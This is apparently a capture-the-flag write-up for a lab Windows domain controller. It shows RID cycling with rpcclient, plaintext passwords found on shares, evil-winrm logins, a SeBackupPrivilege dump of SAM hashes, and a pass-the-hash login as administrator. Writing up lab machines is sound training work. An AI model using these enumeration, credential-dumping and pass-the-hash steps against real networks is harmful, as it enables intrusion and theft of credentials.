Shell as emily.oscars
No webserver so just AD enumeration

THe HR drive contains a welcome letter which has a default password
Cicada$M6Corpb*@Lp#nZp!8
We can get usernames with rpcclient and the domain SID provided by enum4linux


lookupsids <sid>

valid user is emily.oscars but the password doesnt work
Guessing random sids we can get more users
rpcclient $> lookupsids S-1-5-21-917908876-1423158569-3159038727-1100
S-1-5-21-917908876-1423158569-3159038727-1100 *unknown*\*unknown* (8)
rpcclient $> lookupsids S-1-5-21-917908876-1423158569-3159038727-1101
S-1-5-21-917908876-1423158569-3159038727-1101 CICADA\DnsAdmins (4)
rpcclient $> lookupsids S-1-5-21-917908876-1423158569-3159038727-1102
S-1-5-21-917908876-1423158569-3159038727-1102 CICADA\DnsUpdateProxy (2)
rpcclient $> lookupsids S-1-5-21-917908876-1423158569-3159038727-1103
S-1-5-21-917908876-1423158569-3159038727-1103 CICADA\Groups (2)
rpcclient $> lookupsids S-1-5-21-917908876-1423158569-3159038727-1104
S-1-5-21-917908876-1423158569-3159038727-1104 CICADA\john.smoulder (1)
rpcclient $> lookupsids S-1-5-21-917908876-1423158569-3159038727-1105
S-1-5-21-917908876-1423158569-3159038727-1105 CICADA\sarah.dantelia (1)
rpcclient $> lookupsids S-1-5-21-917908876-1423158569-3159038727-1106
S-1-5-21-917908876-1423158569-3159038727-1106 CICADA\michael.wrightson (1)
rpcclient $> lookupsids S-1-5-21-917908876-1423158569-3159038727-1107
Users found
michael.wrightson
sarah.dantelia
john.smoulder
emily.oscars
Michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8

Cant remote in just yet so I was seeing if there is any other users and we find another one with a password.

david.orelious:aRt$Lp#7t*VQ!3
Still cant remote into the machine but our new user david can access the dev share.
Contains a file with a new password Q!3@Lp#M6b*7t*Vt

This is the password for emily.oscars, we can remote in and get user flag.
evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
Privilege Escalation to admin
SeBackupPrivilege is enabled so we can use this to copy root flag or dump ntds.dit/SAM
Need to upload/import both of these files then we can exploit our privileges


We could have stopped there but I wanted to compromise the domain/admin account so I dumped the sam/system hashes.

administrator:2b87e7c93a3e8a0ea4a581937016f341
evil-winrm -i 10.10.11.35 -u administrator -H 2b87e7c93a3e8a0ea4a581937016f341

Pretty easy machine but I did learn something new about enumerating users in RPC client.